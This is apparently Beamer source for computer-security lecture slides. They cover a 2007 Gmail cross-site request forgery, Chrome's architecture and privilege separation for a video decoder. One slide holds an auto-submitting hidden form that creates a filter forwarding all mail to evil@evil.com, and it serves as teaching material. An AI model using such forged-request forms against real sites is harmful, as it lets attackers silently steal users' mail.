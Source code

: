 \begin{frame}[fragile,label=submitForm]{submitting forms}
    \begin{verbatim}
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf"
    enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="evil@evil.com"/> 
    ...
    <input type="hidden" name="s" value="z"/> 
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script>
document.forms[0].submit();
</script>
\end{verbatim}
    \begin{itemize}
    \item above form: 2007 GMail email filter form
        \begin{itemize}
        \item pre filled out: match all messages; forward to \texttt{evil@evil.com}
        \end{itemize}
    \item form will be submitted with 
    \end{itemize}
\end{frame}

\begin{frame}{Chrome architecture}
    \texttt{[image: chrome-arch]}
\end{frame}
\begin{frame}[fragile,label=privSepOutline]{simple privilege seperation}
    \vspace{-.5cm}
\begin{verbatim}
/* dangerous video decoder to isolate */
int main() {
    /* switch to right user */
    SetUserTo("user-without-privileges"));
    while (fread(videoData, sizeof(videoData), 1, stdin) > 0) {
        doDangerousVideoDecoding(videoData, imageData);
        fwrite(imageData, sizeof(imageData), 1, stdout);
    }
}

/* code that uses it */
    FILE *fh = RunProgramAndGetFileHandle("./video-decoder");
    for (;;) {
        fwrite(getNextVideoData(), SIZE, 1, fh);
        fread(image, sizeof(image), 1, fh);
        displayImage(image);
    }
\end{verbatim}
\end{frame}

